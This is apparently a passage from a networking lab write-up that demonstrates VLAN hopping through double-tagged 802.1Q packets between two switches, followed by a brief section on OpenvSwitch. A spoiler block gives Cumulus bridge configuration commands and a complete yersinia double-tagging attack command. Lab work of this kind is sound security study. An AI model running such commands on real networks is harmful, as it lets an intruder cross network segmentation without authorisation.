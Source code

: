 <center>
    
![](https://i.imgur.com/Brp8aoS.png)
Picture 19.  Attacker ping user from VLAN 200 and crafts packets
    
![](https://i.imgur.com/SoABa7c.png)
    Picture 20. From the attacker to switch 2
    
![](https://i.imgur.com/Bmtg0yf.png)
    Picture 21.  from switch 2 to switch 1
    
![](https://i.imgur.com/Y8SN24G.png)
    Picture 22.  from the switch 1 to user of VLAN 200

</center>

As we can see in the pictures above, the packet has successfully traveled to the not intended VLAN 200, which mean we have successfully bypassed VLAN restrictions with the double-tagged packet



:::spoiler

net show configuration

add br and ports to it
net add bridge bridge ports swp(n)

vlans id
net add bridge bridge vids (n)

add naative vlan
net add bridge bridge pvid 1

net add vlan (n) ip address

net del interface swp1 bridge access 100

sudo yersinia dot1q -attack 1 -vlan1 0200 -priority1 00 -cfi1 0 -l2proto1 800 -vlan2 0100 -priority2 00 -cfi2 0 -l2proto2 800 -ipsource 192.168.1.100 -ipdest 192.168.1.12 -ipproto 1 -payload YERSINIA -interface ens3
https://img-en.fs.com/file/user_manual/cumulus-linux-user-guide.pdf
:::

### Task 5: OpenvSwitch

:::info
1. Switch Hopping
:::

According to official documentation, it is possible to configure an open switch with the ability to receive DTP packets, with the command line `ovs-vsctl set bridge ovs-br0 other-config:forward-bpdu=true`. However, I could successfully implement this. But, since it is a possible option in the OpenvSwitch configuration it's worth mentioning this possibility. [11]

:::info
2. Double tagging
:::
